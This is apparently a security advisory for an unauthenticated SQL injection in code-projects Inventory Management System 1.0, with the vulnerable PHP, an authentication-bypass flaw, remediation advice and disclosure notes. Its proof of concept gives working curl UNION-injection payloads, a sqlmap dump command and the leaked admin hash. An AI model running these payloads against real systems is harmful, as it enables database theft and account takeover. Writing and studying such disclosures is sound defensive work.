

# code-projects Inventory Management System 1.0 — Unauthenticated SQL Injection in `fetchSelectedUser.php`

## Summary

code-projects **Inventory Management System 1.0** contains an **unauthenticated SQL
injection** in `/php_action/fetchSelectedUser.php`. The HTTP POST parameter `userid`
is concatenated directly into a SQL query with no sanitization, escaping, or prepared
statement. A UNION-based payload is reflected in the JSON response, allowing an
unauthenticated attacker to read arbitrary database contents — including the
administrator password hash in the `users` table.

| | |
|---|---|
| **Vendor** | code-projects (code-projects.org) |
| **Product** | Inventory Management System |
| **Version** | 1.0 |
| **Component** | `/php_action/fetchSelectedUser.php` |
| **Parameter** | `userid` (HTTP POST) |
| **Type** | SQL Injection (CWE-89) |
| **Authentication** | None required (see *Auth bypass*) |
| **Impact** | Database disclosure incl. credential hashes |

## Vulnerable code

```php
// php_action/fetchSelectedUser.php
require_once 'core.php';
$userid = $_POST['userid'];
$sql = "SELECT * FROM users WHERE user_id = $userid";   // userid concatenated, unquoted
$result = $connect->query($sql);
if ($result->num_rows > 0) { $row = $result->fetch_array(); }
echo json_encode($row);                                  // result reflected in-band
```

`$userid` is used in a numeric (unquoted) context with no `intval()`/escaping/prepared
statement, so a `UNION SELECT` is injected directly and returned in the response.

### Auth bypass (why it is unauthenticated)

`fetchSelectedUser.php` includes `core.php`, whose access check issues a redirect but
**never terminates the script**:

```php
// php_action/core.php
if(!$_SESSION['userId']) { header('location:'.$store_url); }   // no exit() / die()
```

Sending a `Location` header does not stop PHP execution. A browser follows the 302, but
an attacker using `curl`/Burp ignores it and the vulnerable code below still runs — so
the injection is reachable **without authentication**. (The same flaw exposes every
endpoint under `php_action/`.)

## Proof of Concept

```bash
TARGET="http://127.0.0.1:8080"   # replace with the target

# 1) No session cookie, yet data is returned (auth bypass):
curl -s "$TARGET/php_action/fetchSelectedUser.php" --data "userid=1"

# 2) Dump the users table (credential hashes) via UNION injection:
curl -s "$TARGET/php_action/fetchSelectedUser.php" \
  --data-urlencode "userid=0 UNION SELECT user_id,username,password,email FROM users-- -"

# 3) Prove live injection — returns DB internals a normal lookup never could:
curl -s "$TARGET/php_action/fetchSelectedUser.php" \
  --data-urlencode "userid=0 UNION SELECT 1,version(),current_user(),4-- -"
```

Response to (2) on a default install:

```json
{"0":"1","user_id":"1","1":"admin","username":"admin",
 "2":"21232f297a57a5a743894a0e4a801fc3","password":"21232f297a57a5a743894a0e4a801fc3",
 "3":"","email":""}
```

`21232f297a57a5a743894a0e4a801fc3` = `MD5("admin")`, the default administrator credential.
Response to (3) returns the MariaDB version string and `current_user()` in the JSON,
confirming live injection.

### Evidence



Automated extraction with sqlmap:

```bash
sqlmap -u "$TARGET/php_action/fetchSelectedUser.php" --data="userid=0" \
  -p userid --dbms=mysql --technique=U --union-cols=4 --batch --dump -T users -D store
```

## Impact

An unauthenticated, remote attacker can read the entire database, including administrator
credential hashes, leading to full application compromise after offline hash cracking
(the default hash is MD5 of `admin`).

## Remediation

Use parameterized queries / prepared statements for `userid` (and all `php_action/`
endpoints), and fix the authorization guard in `core.php` to call `exit;` after the
redirect.

## Disclosure

- Tested only against a local, isolated instance (Docker). No third-party system was accessed.
- Product appears abandoned (last release 1.0); reported via the CNA for public CVE assignment.

## References

- Affected file: `/php_action/fetchSelectedUser.php`, parameter `userid`
- Same codebase, related CVEs: CVE-2025-6827 (`editOrder.php`), CVE-2025-6834 (`editPayment.php`), CVE-2025-6902 (`editUser.php`), CVE-2025-6901 (`removeUser.php`)
